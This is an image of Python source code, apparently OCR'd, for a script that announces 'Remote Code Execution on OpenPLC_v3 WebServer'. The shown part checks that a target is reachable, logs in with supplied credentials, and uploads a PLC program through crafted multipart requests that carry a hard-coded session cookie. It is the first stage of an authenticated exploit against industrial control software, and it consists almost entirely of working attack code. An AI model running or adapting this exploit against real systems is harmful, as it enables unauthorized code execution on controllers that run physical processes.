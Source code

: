 ```python
    print('[+] Remote Code Execution on OpenPLC_v3 WebServer')
    time.sleep(1)
    print('[+] Checking if host '+host+' is Up...')
    host_up = x.get(host)
    try:
        if host_up.status_code == 200:
            print('[+] Host Up! ...')
    except:
        print('[+] This host seems to be down :( ')
        sys.exit(0)

    print('[+] Trying to authenticate with credentials '+user+':'+password+'') 
    time.sleep(1)   
    submit = {
        'username': user,
        'password': password
    }
    x.post(login, data=submit)
    response = x.get(upload_program)
            
    if len(response.text) > 30000 and response.status_code == 200:
        print('[+] Login success!')
        time.sleep(1)
    else:
        print('[x] Login failed :(')
        sys.exit(0)  

def injection():
    print('[+] PLC program uploading... ')
    upload_url = host + "/upload-program" 
    upload_cookies = {"session": ".eJw9z7FuwjAUheFXqTx3CE5YInVI5RQR6V4rlSPrekEFXIKJ0yiASi7i3Zt26HamT-e_i83n6M-tyC_j1T-LzXEv8rt42opcIEOCCtgFysiWKZgic-otkK2XLr53zhQTylpiOC2cKTPkYt7NDSMlJJtv4NcO1Zq1wQhMqbYk9YokMSWgDgnK6qRXVevsbPC-1bZqicsJw2F2YeksTWiqANwkNFsQXdSKUlB16gIskMsbhF9_9yIe8_fBj_Gj9_3lv-Z69uNfkvgafD90O_H4ARVeT-s.YGvgPw.qwEcF3rMliGcTgQ4zI4RInBZrqE"}
    upload_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------210749863411176965311768214500", "Origin": host, "Connection": "close", "Referer": host + "/programs", "Upgrade-Insecure-Requests": "1"} 
    upload_data = "-----------------------------210749863411176965311768214500\r\nContent-Disposition: form-data; name=\"file\"; filename=\"program.st\"\r\nContent-Type: application/vnd.sailingtracker.track\r\n\r\nPROGRAM prog0\n  VAR\n    var_in : BOOL;\n    var_out : BOOL;\n  END_VAR\n\n  var_out := var_in;\nEND_PROGRAM\n\n\nCONFIGURATION Config0\n\n  RESOURCE Res0 ON PLC\n    TASK Main(INTERVAL := T#50ms,PRIORITY := 0);\n    PROGRAM Inst0 WITH Main : prog0;\n  END_RESOURCE\nEND_CONFIGURATION\n\r\n-----------------------------210749863411176965311768214500\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\nUpload Program\r\n-----------------------------210749863411176965311768214500--\r\n"
    upload = x.post(upload_url, headers=upload_headers, cookies=upload_cookies, data=upload_data)

    act_url = host + "/upload-program-action"
    act_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------374516738927889180582770224000", "Origin": host, "Connection": "close", "Referer": host + "/upload-program", "Upgrade-Insecure-Requests": "1"}
    act_data = "-----------------------------374516738927889180582770224000\r\nContent-Disposition: form-data; name=\"prog_name\"\r\n\r\nprogram.st\r\n-----------------------------374516738927889180582770224000\r\nContent-Disposition: form-data; name=\"prog_descr\"\r\n\r\n\r\n-----------------------------374516738927889180582770224000\r\nContent-Disposition: form-data; name=\"prog_file\"\r\n\r\n681871.st\r\n-----------------------------374516738927889180582770224000\r\nContent-Disposition: form-data; name=\"epoch_time\"\r\n\r\n1617682656\r\n-----------------------------374516738927889180582770224000--\r\n"
    upload_act = x.post(act_url, headers=act_headers, data=act_data)
```